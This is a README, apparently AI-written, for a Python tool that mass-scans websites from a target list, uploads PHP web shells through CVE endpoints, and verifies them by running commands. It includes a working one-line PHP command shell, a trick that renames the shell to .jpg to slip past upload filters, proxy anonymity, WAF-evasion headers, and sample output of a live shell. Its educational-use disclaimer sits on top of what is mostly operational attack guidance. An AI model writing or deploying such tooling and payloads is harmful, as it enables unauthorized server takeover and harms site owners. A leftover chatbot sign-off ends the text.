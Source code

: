 ShadowCobra X9 Vulnerability Scanner
� � �
ShadowCobra X9 Vulnerability Scanner is a hybrid, advanced Python-based tool designed for educational purposes and authorized security testing. It combines the strengths of CVE-based vulnerability scanning (inspired by CobraX9++) and automated shell upload detection (inspired by ShadowUploader v3). This tool scans websites for known vulnerabilities, attempts to upload proof-of-concept (PoC) shells, and verifies live shells with a real-time dashboard.
Note: This tool is intended for educational use or authorized penetration testing on systems you own or have explicit permission to test. Unauthorized use is illegal and unethical.
Features
Modular CVE Scanning: Detects vulnerabilities across popular CMS platforms (e.g., WordPress, Laravel) using a predefined CVE database.
Auto Shell Uploader: Automatically attempts to upload shell files to vulnerable endpoints and verifies their execution.
Multi-Threaded: Utilizes concurrent scanning with up to 20 threads for efficiency.
Live Shell Dashboard: Displays verified live shells in a Tkinter-based GUI.
Proxy Support: Integrates with a proxy list for anonymous scanning.
Detailed Reporting: Logs vulnerable URLs, live shells, and debug information to files.
WAF Evasion: Randomizes headers to mimic legitimate browser traffic.
Requirements
Python: 3.7 or higher
Dependencies:
requests
colorama
tqdm
Install via: pip install requests colorama tqdm
Installation
Clone the Repository:
git clone https://github.com/yourusername/shadowcobra-x9.git
cd shadowcobra-x9
Install Dependencies:
pip install -r requirements.txt
(Create a requirements.txt file with the above dependencies if not included.)
Prepare Files:
targets.txt: Create a file containing target domains/URLs (one per line, e.g., example.com).
proxy.txt (optional): Add a list of proxies (e.g., socks5://192.168.1.1:9050) for anonymity.
shadow.php: Create a PHP shell (e.g., <?php system($_GET['cmd']); ?>).
shell.php.jpg: Rename a copy of shadow.php to disguise it (e.g., cp shadow.php shell.php.jpg).
Usage
Run the script with the following command-line options:
python shadowcobra_x9.py [options]
Options
--silent: Run in silent mode (suppress output except for live shell detections).
--cmd <command>: Specify a command to execute via the shell (default: whoami).
--https: Force HTTPS requests instead of HTTP.
Examples
Basic Scan:
python shadowcobra_x9.py
Scans targets from targets.txt with HTTP and displays results.
Silent Mode with Custom Command:
python shadowcobra_x9.py --silent --cmd "id"
Runs quietly, testing with the id command.
Force HTTPS:
python shadowcobra_x9.py --https
Scans using HTTPS for all targets.
Output
Terminal: Color-coded results (e.g., [VULNERABLE], [SAFE], [!!!] LIVE SHELL).
Files:
live_shells.txt: Contains verified live shell URLs.
debug_shell_hits.txt: Logs potential shell hits for debugging.
Dashboard: A Tkinter window displays live shells in real-time.
Sample Output
╦═╗┬ ┬┌─┐┌─┐┬ ┬┬ ┬┬┌┬┐┌─┐┬─┐
╠╦╝│ ││  ├┤ ├─┤│ ││ │ ├┤ ├┬┘
╩╚═┴─┴└─┘└─┘┴ ┴└─┘┴ ┴ └─┘┴└─
   ShadowCobra X9 Vulnerability Scanner
        Hybrid Edition by ShadowHax (2025)

[*] Scanning http://example.com
[VULNERABLE] http://example.com → CVE-2025-26892 (WordPress Celestial Aura Theme v2.2)
[+] Uploaded shadow.php to: http://example.com/wp-content/themes/celestial-aura/upload.php
[!!!] LIVE SHELL (Verified www-data): http://example.com/wp-content/uploads/shadow.php?cmd=whoami
  Redirect chain: http://example.com/wp-content/uploads/shadow.php (final)
  -> http://example.com/wp-content/uploads/shadow.php (status: 302)
Contributing
Fork the repository.
Create a feature branch (git checkout -b feature-name).
Commit your changes (git commit -m "Add feature-name").
Push to the branch (git push origin feature-name).
Open a Pull Request.
Adding CVEs
Extend the CVE_MODULES list in the script with new vulnerabilities (fingerprint, regex, upload endpoint).
Test thoroughly on a controlled environment.
License
This project is licensed under the MIT License - see the LICENSE file for details.
Disclaimer
Educational Use Only: This tool is intended for learning purposes or authorized security testing on systems you own or have explicit permission to assess.
Legal Warning: Unauthorized use against systems you do not own or have permission to test is illegal and may result in severe legal consequences. The developers are not responsible for any misuse or damage caused by this tool.
As-Is: Use at your own risk. No warranty is provided.
Acknowledgments
Inspired by CobraX9++ and ShadowUploader v3.
Built with love by ShadowHax on September 03, 2025.
Notes
Customization: Replace https://github.com/yourusername/shadowcobra-x9.git with your actual GitHub repository URL.
LICENSE File: Create a LICENSE file with the MIT License text if you choose to use it.
requirements.txt: Add a file with requests, colorama, tqdm to simplify dependency installation.
Testing: Test on a local virtual machine or a dedicated test server to avoid legal issues.
Let me know if you’d like to adjust the content (e.g., add more sections, change the license, or include specific contributors)! 😎
